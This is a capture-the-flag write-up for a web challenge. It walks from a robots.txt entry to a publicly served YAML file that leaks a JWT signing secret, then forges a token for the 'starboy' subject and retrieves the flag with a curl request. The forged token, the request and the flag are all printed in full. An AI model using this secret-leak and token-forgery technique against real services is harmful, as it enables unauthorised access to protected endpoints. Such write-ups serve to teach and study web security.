 ## Introduction

![](images/image.png)

Starboy, or Starboy Diary is just a simple frontend that shows a list of images for famous artists. The description though, saying "You Need more than Google just to find them" is a hint that we need to look at something related to Google, a clear hint for the `robots.txt` file.

## Analysis

The `robots.txt` file is a file that is used by search engines to know which pages to index and which pages to ignore. The `robots.txt` file is located at this [url](https://starboy-diary.vercel.app/robots.txt) and it contains the following:

```txt
User-agent: *

Disallow: /secrets/starboy_secrets.yml
```

So, we can see that there is a file called `starboy_secrets.yml` that is disallowed, We can try to access it by changing the url to this [url](https://starboy-diary.vercel.app/secrets/starboy_secrets.yml) and we get the following:

```yml
name: secrets
repository_url: https://github.com/hmlndrr/Starboy
content:
  jwt-secret: thurdsay_house_of_balloons_echos_of_silence
```

Our Artifact is the `jwt-secret` which is `thurdsay_house_of_balloons_echos_of_silence`. and a link to the repository.

If you haven't heard of JWT, you can checkout this [youtube video](https://www.youtube.com/watch?v=UBUNrFtufWo) explaining the difference between it and Seession based authentication.

Going through the repository, we can see that there is a file called `server.js` that contains the following:

```ts
import type { NextApiRequest, NextApiResponse } from "next";
import * as jwt from "jsonwebtoken";
import * as yml from "js-yaml";
import * as fs from "fs";

type Data = {
  message: string;
};

type Config = {
  name: string;
  repository_url: string;
  content: {
    [key: string]: string;
  };
};


export default async function handler(
  req: NextApiRequest,
  res: NextApiResponse<Data>
) {

    // get the authorization header
  const { authorization } = req.headers;

    // if there is no authorization header, return 401
  if (!authorization) {
    res.status(401).json({ message: "No authorization header" });
    return;
  }

    // split the authorization header into two parts
  const [authType, token] = authorization.split(" ");

    // if the authorization type is not Bearer, return 401
  if (authType !== "Bearer") {
    res.status(401).json({ message: "Not A Valid Bearer" });
    return;
  }

    // if there is no token, return 401
  if (!token) {
    res.status(401).json({ message: "Not A Valid Token" });
    return;
  }

  try {
    // get the secret from the yaml file we found earlier
    const url = process.env.ME || "http://localhost:3000";
    const secret = yml.load(
      await fetch(`${url}/secrets/starboy_secrets.yml`).then((res) =>
        res.text()
      )
    ) as Config;


    if (!secret) {
      res.status(500).json({ message: "Internal Error, Contact Admin" });
      return;
    }


    // verify the token
    const payload = jwt.verify(token, secret.content["jwt-secret"]);
    if (!payload) {
      res.status(401).json({ message: "Unauthorized" });
      return;
    }

    // if the payload.sub is not starboy, return 401
    if (payload.sub !== "starboy") {
      res.status(401).json({ message: "Unauthorized" });
      return;
    }

    const flag = process.env.FLAG || "No Flag, Contact Admin";

    // return the flag
    res.status(200).json({ message: flag });
  } catch (e: any) {
    console.log(e);
    res.status(500).json({ message: "An Error Just Happened, Contact Admin" });
    return;
  }
}
```

The file is located in `/src/pages/api/secrets`, which, if you are not familiar with `NextJS`, will create an HTTP endpoint at `/api/secrets` routed to the `handler` function.

## Solving

So, we can see that the server is using JWT to authenticate the user, and the secret is stored in the `starboy_secrets.yml` file. We can use the [jwt.io](https://jwt.io/) website to generate a JWT token with the following payload, and the secret that we have found earlier:

```json
{
  "sub": "starboy"
}
```

![](images/jwt.io.png)

we get the following token:

```txt
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJzdGFyYm95In0.z6Ud8nHjn0QYybwHWuiiA7NCCxc4aOBr3bwQmMGjoQk
```

We can then use the `curl` command to send a request to the server with the token in the `Authorization` header (or you can use any other tool like Postman, Thunder Client, Burp Suite, etc.):

```bash
curl -H 'authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJzdGFyYm95In0.z6Ud8nHjn0QYybwHWuiiA7NCCxc4aOBr3bwQmMGjoQk' https://starboy-diary.vercel.app/api/secrets

# {"message":"ENIT{L1ke_a_m0th_2_a_fl4mE}"}
```

## Conclusion

In this challenge, we learned about the `robots.txt` file and how it can be used to find hidden files, and we also learned about JWT and how it can be used to authentication.

## Flag
> ENIT{L1ke_a_m0th_2_a_fl4mE}